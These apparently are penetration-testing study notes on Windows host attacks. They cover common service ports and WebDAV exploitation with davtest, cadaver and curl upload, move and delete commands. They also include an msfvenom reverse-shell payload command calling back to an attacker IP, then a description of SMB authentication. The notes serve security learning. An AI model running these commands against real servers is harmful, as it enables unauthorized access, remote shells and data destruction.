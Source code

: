 # Windows System/Host Based Attacks

## Exploiting Vulnerabilities for Initial Foothold

The most frequently exploited native windows services are:

|     Name      |Protocol|Port Number|
|---------------|--------|-----------|
| Microsoft IIS | TCP    | 80/443    |
| WebDAV        | TCP    | 80/443    |
| SMB/CIFS      | TCP    | 445       |
| RDP           | TCP    | 3389      |
| WinRM         | TCP    | 5985/5986 |

### Exploiting WebDAV 80/443

WebDAV is a extension that enables File interaction to the users on IIS servers.

#### WebDav with cadaver and davtest

`davtest` and `cadaver` are the tools used to attack the service.

- `davtest -url <url>/webdav -auth <user>:<password>`

- `cadaver <url>/webdav` then it will display a prompt 

#### Using CURL

- `curl -T --user '<user>:<password>' '<file_to_upload>' '<url>'` this will upload a file to the server
- `curl -X MKCOL '<url>/<new_dir_name>'` will create a new directory on the server
- `curl -X MOVE --header 'Destination:<url>/<new_path>' '<url>/<file_to_move>'`
- `curl -X DELETE '<url>/<file_to_delete>'` will delete a specified file/dir

#### WebDav with metasploit

Create a revshell with `msfvenom` and then connecto to `metasploit` by using `multi/handler` module

`msfvenom -p <path_to_payload> LHOST=<attacker_ip> LPORT=<attacker_port> -f <output format> -o <output_name>`

Other option is related with using `windows/iis/iis_webdav_upload_asp` module

### Exploiting SMB 139/445

How does SMB authentication works:

1. The client request access to a share
2. The server generates a string and sends it to the client
3. The client generates a hash of the received string by using the user password as the key
4. The server does the same thing as the client with the stored password of the user 
5. The client sends the encrypted string to the server which will compare it against the one that it generated by using the stored password of the user
6. If both strings match then the authentication will be succesful.
